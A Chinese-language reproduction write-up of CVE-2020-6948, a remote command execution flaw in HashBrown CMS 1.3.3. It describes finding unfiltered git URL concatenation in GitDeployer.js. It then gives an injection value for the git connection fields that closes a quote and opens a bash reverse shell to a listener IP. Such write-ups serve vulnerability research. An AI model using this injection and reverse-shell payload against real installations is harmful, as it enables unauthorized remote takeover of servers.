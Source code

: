 ```yaml
---
title: （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
id: zhfly2964
---
```


# （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞

## 一、漏洞简介

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS 1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

HashBrown CMS 1.3.3

## 三、复现过程

在之前收集的资料里面总结了发现漏洞基本有三个方法：

*   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。https://github.com/wireghoul/graudit 这个项目就罗列了很多语言的关键词可以用作参考。
*   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。
*   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep 之后发现了下面的结果。

![image](../img/0ca76dccc4bb1688f8b32eee76d34890.png)

看来这个应用使用git 相关命令，如果可以传入url 参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js 文件查看源代码。

![image](../img/10bf938c493402bbc2e3a8e8f84d6591.png)

其中可以看到url由username，password，和repro 几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

```
https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1 
```

配置如下：

![image](../img/28d40437f3002fd2be223cc0a7d02623.png)

然后点击media菜单触发git命令执行

![image](../img/a99c5d589913971ec98c7ae38c21b894.png)

接下来在监听的机器上就可以获得shell了

![image](../img/49a857884061e89c0b10e969064c5aa8.png)

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j
